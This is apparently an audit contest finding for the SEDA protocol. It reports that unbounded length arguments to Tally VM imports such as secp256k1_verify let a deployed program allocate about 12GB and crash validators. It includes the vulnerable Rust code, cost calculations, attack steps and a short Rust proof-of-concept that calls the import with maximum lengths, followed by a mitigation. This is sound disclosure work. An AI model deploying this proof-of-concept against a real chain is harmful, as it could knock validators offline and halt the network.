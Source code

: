 Cheesy Raisin Dachshund

High

# Anyone can pass any length to some Tally imports to inflate memory, induce OOM, and crash validators

### Summary

A Tally program can use Tally imports like [`secp256k1_verify`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-wasm-vm/runtime/core/src/core_vm_imports/secp256_k1.rs#L17-L49) and set its `message_length`, `signature_length`, and `public_key_length` to `max::u32` and bloat memory usage by 12GB.

### Root Cause

There are 2 root causes for this issue:

1. There are no limits for `message_length`, `signature_length`, and `public_key_length`.

```rust
fn secp256k1_verify(
    mut env: FunctionEnvMut<'_, VmContext>,
    message: WasmPtr<u8>,
    message_length: i64,
    signature: WasmPtr<u8>,
    signature_length: i32,
    public_key: WasmPtr<u8>,
    public_key_length: i32,
) -> Result<u8> {
    apply_gas_cost(
        crate::metering::ExternalCallType::Secp256k1Verify(message_length as u64),
        &mut env,
    )?;

    let ctx = env.data();
    let memory = ctx.memory_view(&env);

    // Fetch function arguments as Vec<u8>
    // @audit using max::u32 for each of lengths will allocate a total memory of 12GB
    let message = message.slice(&memory, message_length as u32)?.read_to_vec()?;
    let signature = signature.slice(&memory, signature_length as u32)?.read_to_vec()?;
    let public_key = public_key.slice(&memory, public_key_length as u32)?.read_to_vec()?;
```

Below is the calculation for the memory use if maxU32 is used as length for all.

```pseudocode
message_length:     4,294,967,295 bytes
signature_length:   4,294,967,295 bytes
public_key_length:  4,294,967,295 bytes
                   ---------------
Total:            12,884,901,885 bytes

Converting to GB:
12,884,901,885 / 1,073,741,824 ≈ 12 GB
```

2. The [gas cost](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-wasm-vm/runtime/core/src/metering.rs#L115-L117) for calling `secp256k1_verify` with the max lengths is only ~4.3e13 SEDA tokens. One whole SEDA token is 1e18 and
the current price of 1 whole SEDA token ~$0.03019. The cost of bloating all SEDA Chain validators' memory by 12GB is negligible.

Calculation for the `secp256k1_verify` gas cost:

```pseudocode
gas_cost = 1e7 + 1e7 + (1e4 * bytes_length)
bytes_length = maxU32 ~= 4.3e9
gas_cost = 1e7 + 1e7 + (1e4 * ~4.3e9)
gas_cost = ~4.3e13   // The gas cost is much less than 1e18 SEDA tokens
```

* Note that the issue also exists in `keccak256` and `execution_result` but in lesser degrees.

### Internal Pre-conditions
None

### External Pre-conditions
None


### Attack Path
1. The Attacker creates a WASM program that calls the `secp256k1_verify` import with max::u32 values for `message_length`, `signature_length`, and `public_key_length`.
2. The Attacker then compiles the WASM program and deploys the binary via [`StoreOracleProgram()`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-chain/x/wasm-storage/keeper/msg_server.go#L34-L96).
3. The Attacker posts a Data Request that will execute their earlier deployed Tally Program.
4. Once the Data Request is for tallying, it will be processed in the Tally module's [`EndBlock()`](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-chain/x/tally/keeper/endblock.go#L22-L41).
5. When [executing](https://github.com/sherlock-audit/2024-12-seda-protocol/blob/main/seda-chain/x/tally/keeper/endblock.go#L210) the Attacker's Tally Program, the validator node's memory usage will inflate by ~12GB. This can crash multiple validators due to Out-of-Memory.


### Impact
Crashing multiple validators due to Out-of-Memory can cause chain halts.


### PoC

The example WASM program that exploits the issue in `secp256k1_verify`.

```rust
#[link(wasm_import_module = "seda_v1")]
extern "C" {
    pub fn secp256k1_verify(
        message: *const u8,
        message_length: i64,
        signature: *const u8,
        signature_length: i32,
        public_key: *const u8,
        public_key_length: i32,
    ) -> u8;
}

fn main() {
    let result = vec![1, 2, 3];
    unsafe {
        secp256k1_verify(
            result.as_ptr(), 
            u32::MAX as i64,
            result.as_ptr(),
            -1i32,
            result.as_ptr(), 
            -1i32,
        );
    }
}
```


### Mitigation
Consider limiting all the length parameters in all the Tally imports and/or increase the gas costs.
